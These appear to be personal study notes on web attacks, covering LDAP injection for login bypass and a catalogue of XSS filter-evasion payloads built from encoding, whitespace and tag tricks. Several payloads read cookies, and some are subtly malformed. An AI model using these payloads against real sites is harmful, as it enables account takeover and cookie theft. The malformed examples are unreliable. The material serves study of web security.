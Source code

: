 an attacker enters a valid username "certifiedhacker" and injects certifiedhacker)(&)), then the URL string becomes (&(USER=certifiedhacker)(&))(PASS=blah)). The LDAP server processes only the first filter; only the query (&(USER=certifiedhacker)(&)) is processed. This query is always true, and the attacker logs into the system without a valid password.

#### Cross-Site Scripting (XSS) Attacks 

![[Pasted image 20250806121504.png]]
##### XSS Attack in Comment Field
for example 
- ```“<script>alert ("Hello World") </script>“ ``

-  Encoding Characters
o A few or all of the characters of HTML elements can be written using ASCII codes to evade filters that search for strings such as` <javascript>: 
- ``<a href= “&#106;javascript:alert(‘XSS Successful’)”> Click Here!</a>
o Hexadecimal encoding can be used to bypass filters that search for HTML elements by scanning for &# along with numeric characters: 
- ``<a href=”&#6A;javascript:alert(document.cookie)”> Click Here!</a>
o Base64 encoding can be used to cover the tracks of attack code; it pops up an alert with “Successful XSS”:
- ``<body onload=”eval(atob(‘U3VjY2Vzc2Z1bCBYU1M=’))”>
o The embedded character elements are from numbers 1–7, avoiding initial zeros. Therefore, any composition of zero padding is allowed:
- ``<a href=”&#x6A;javascript&#0000058&#0000097lert(‘Successful XSS’)”> Click Here!</a>``
 XSS payloads can be concealed using character codes:
- ``<iframe src=# onmouseclick=alert(String.fromCharCode(88,83,83))></iframe>``
 Embedding Whitespaces
Browsers allow convenient usage of whitespace characters while writing JavaScript or HTML code. Thus, attackers can easily evade filters by inserting non-printable characters.
o Tab spaces are avoided while processing the code; they can be invoked to split keywords. Consider this <img> tag: 
- ``<img src=”java script:al ert (‘Successful XSS’)”>
o You can also encode the tab spaces: 
- ``<img src=”java&#x09;script:al&#x09;ert(‘Successful XSS’)”>
o Similarly, carriage return and newline characters are not considered during processing; thus, attackers can also encode these characters in between: 
- ``<a href =”jav&#x0A;a Script:&#x0A;ale&#x0Drt; (‘Successful XSS’)”>Visit xyz.com</a>
 Manipulating Tags
  XSS filter evasion can also be performed by manipulating tags and skipping attributes.
o When the filter inspects the script and deletes certain tags (mostly `<script>`), placing them within other tags can leave legitimate code after they are deleted: - 
- ``<scr<script>ipt>document.write(“Successful XSS”)</scr<script>ipt>
o Attributes and tags can be separated by supplying a slash that helps in bypassing whitespace restrictions in value insertion:
- ``<img/src=”popup.jpg”onload=&#x6A;avascript:eval(alert(‘Successful&#3 2XSS’))>
o Attackers also exploit browser interpretations and abnormal tag inputs to bypass filters. The following example shows how to skip the `<href>` tag: 
- ``<a onmousedown=alert(document.cookie)> visit xyz.com</a>
